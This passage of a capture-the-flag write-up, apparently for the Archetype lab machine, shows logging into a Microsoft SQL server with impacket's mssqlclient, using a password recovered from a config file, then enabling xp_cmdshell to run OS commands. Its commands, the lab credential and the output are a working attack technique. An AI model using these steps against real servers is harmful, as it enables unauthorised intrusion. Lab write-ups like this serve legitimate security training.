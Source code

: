 ## Foothold
### mssqlclient

The file contains some credentials which we will use with the impacket mssqlclient, if you use Kali Linux you can get it from ```/usr/share/doc/python3-impacket/examples/mssqlclient.py``` or you can download it from its [github](https://github.com/SecureAuthCorp/impacket) repo with:
```shell
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/mssqlclient.py
```
or with Kali Linux:
```shell
cp /usr/share/doc/python3-impacket/examples/mssqlclient.py .
When you have mss, start session to the server with the credentials obtained in prod.dtsConfig with:
```
kyb3r@kryze:~$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

Password: M3g4c0rp123
Impacket - Copyright SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```
![mssqlclient](mssqlclient.png)

### xp_cmdshell
Now we will enable xp_cmdshell ("Spawns a Windows command shell and passes in a string for execution") to gain Remote Command Execution (RCE) with the following commands/codes:
```sql
EXEC sp_configure ‘Show Advanced Options’, 1;
reconfigure;
sp_configure;
EXEC sp_configure ‘xp_cmdshell’, 1
reconfigure;
xp_cmdshell “whoami”
```
When the SQL console returns, it means that we have done it correctly:
```sql
SQL> xp_cmdshell “whoami”
output

---------------------------

archetype\sql_svc

NULL

SQL>
```
![xp_cmdshell](xp_cmdshell.png)
